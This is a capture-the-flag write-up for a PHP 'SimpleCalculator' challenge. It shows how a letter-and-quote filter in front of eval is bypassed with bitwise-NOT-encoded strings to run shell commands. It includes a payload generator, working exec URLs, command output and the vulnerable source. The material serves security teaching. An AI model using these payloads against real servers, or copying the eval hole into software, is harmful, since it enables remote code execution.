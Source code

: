 ## SimpleCalculator (100 points)

#### Solved by Fluoxetine

```
Some restriction should prevent this simple calculator from being hacked. Right?

61.28.237.24 30101

authors: d0r4, Em0n
```

![](image0.png)
![](image1.png)
![](image2.png)
![](image3.png)
![](image4.png)
![](image5.png)
![](image6.png)
![](image7.png)

We are given a web form that allows us to input values and operations to a calculator and the results will be printed.

Some quick experiments reveal that we can not use neither letters nor quotes. The input must also be shorter than 20 characters.

It’s highly likely that the server is doing some sort of `eval` to perform the calculation. We can exploit it to run functions like `exec("ls")`, but we first need to figure out some way to pass strings.

The trick here is to use the bitwise NOT operator. When PHP encounters `~` and a string, it will invert that string. Therefore, we can invert our string, passing it to the calculator along with `~`, and PHP will invert back to the original string :)

Sample payload for `exec("ls -l >a")`: `(~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%C1%9E)`

We need to put the string in bracket to make PHP treat it as string. We don't need any quotes because PHP treats unknown constants as strings (e.g. `echo aabbccdd` will print out `aabbccdd` if `aabbccdd` has not been defined as a constant).

Now it's just the matter of choosing which commands to run. The command has the maximum length of 10.

```php
<?php
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"ls -l >a") . ")" . "\n";  // (~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"ls -l />a") . ")" . "\n"; // (~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%D0%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"cat /f*>a") . ")" . "\n"; // (~%9A%87%9A%9C)(~%9C%9E%8B%DF%D0%99%D5%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"rm a") . ")" . "\n";      // (~%9A%87%9A%9C)(~%8D%92%DF%9E)
?>
```

Run the payload like this: `http://61.28.237.24:30101/?equation=(~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%C1%9E)`

Read `a`: `http://61.28.237.24:30101/a`

Output of `ls -l >a`:

```
total 4
-rw-r--r--. 1 www-data www-data   0 May 24 01:39 a
-rwxrw-r--. 1 www-data root     856 May 18 11:52 index.php
drwxr-xr-x. 1 www-data root      23 May 18 11:52 static
```

Output of `ls -l />a`:

```
total 4
drwxr-xr-x.   1 root root  28 May 12 12:48 bin
drwxr-xr-x.   2 root root   6 Mar 19 23:44 boot
drwxr-xr-x.   5 root root 360 May 23 13:13 dev
drwxr-xr-x.   1 root root  66 May 23 13:13 etc
-rwxrw-r--.   1 root root  25 May 18 11:52 fl4ggggH3reeeeeeeeeee
drwxr-xr-x.   2 root root   6 Mar 19 23:44 home
drwxr-xr-x.   1 root root  21 May 12 12:48 lib
drwxr-xr-x.   2 root root  34 May 11 00:00 lib64
drwxr-xr-x.   2 root root   6 May 11 00:00 media
drwxr-xr-x.   2 root root   6 May 11 00:00 mnt
drwxr-xr-x.   2 root root   6 May 11 00:00 opt
dr-xr-xr-x. 570 root root   0 May 23 13:13 proc
drwx------.   1 root root   6 May 12 13:41 root
drwxr-xr-x.   1 root root  36 May 23 13:13 run
drwxr-xr-x.   1 root root  20 May 12 12:48 sbin
drwxr-xr-x.   2 root root   6 May 11 00:00 srv
dr-xr-xr-x.  13 root root   0 May 11 11:41 sys
drwxrwxrwt.   1 root root   6 May 12 13:41 tmp
drwxr-xr-x.   1 root root  19 May 11 00:00 usr
drwxr-xr-x.   1 root root  17 May 12 12:43 var
```

Output of `cat /f*>a`:

```
HCMUS-CTF{d4ngErous_eVal}
```

Just for the sake of completeness, we can also dump `index.php`:

```php
<?php
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"cat i*>a") . ")" . "\n"; // (~%9A%87%9A%9C)(~%9C%9E%8B%DF%96%D5%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"rm a") . ")" . "\n";     // (~%9A%87%9A%9C)(~%8D%92%DF%9E)
?>
```

```php
<?php

    $html = '   <form>
        <label for="equation">Equation: </label>
            <input name="equation" value="13*37">
        <input type="submit">
    </form>
';
    if (isset($_GET["equation"])) {
        $formula = $_GET["equation"];
        if (preg_match_all('/[a-z\'"`]+/i', $formula)) {
            echo "<video controls autoplay><source src='static/video.mp4' type='video/mp4'></video>";
            echo "<h1>Are you trying to hack me? Alphabetic character and quote is not allowed here</h1>";
        }
        else if (strlen($formula) >= 20) {
            echo "<h1>This is just a simple calculator, not WolframAlpha, try a shorter equation</h1>";
        }
        else
        {
            eval('$res = ' . $formula . ';');
            echo isset($res) ? $res : '?';
        }
    }
    else
        echo $html;
?>
```

**Flag:** `HCMUS-CTF{d4ngErous_eVal}`

### References

- [https://waituck.sg/web/rctf2020/php/2020/06/10/rctf-2020-calc-writeup.html](https://waituck.sg/web/rctf2020/php/2020/06/10/rctf-2020-calc-writeup.html)
- [https://github.com/mengdaya/Web-CTF-Cheatsheet](https://github.com/mengdaya/Web-CTF-Cheatsheet)
